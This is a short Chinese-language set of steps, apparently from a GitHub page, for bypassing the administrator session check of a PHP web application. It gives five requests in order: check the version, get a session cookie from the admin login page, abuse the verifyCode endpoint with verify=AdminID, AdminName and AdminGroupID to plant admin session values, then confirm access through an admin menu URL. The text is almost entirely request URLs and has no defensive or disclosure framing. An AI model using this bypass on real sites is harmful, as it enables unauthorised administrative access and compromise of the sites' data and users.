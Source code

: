 1.访问 /index.php/base?a=Version 判断版本
2.访问 /index.php/Admin/public/Login 生成一个 PHPSESSID
3.访问下面两条url 绕过session检测
```
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminID&type=png
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminName&type=png
```
4.访问 /index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminGroupID&type=png
5. 访问  /index.php/Admin/Public/AdminLeft/MenuTopID/7 判断PHPSESSID是否有效
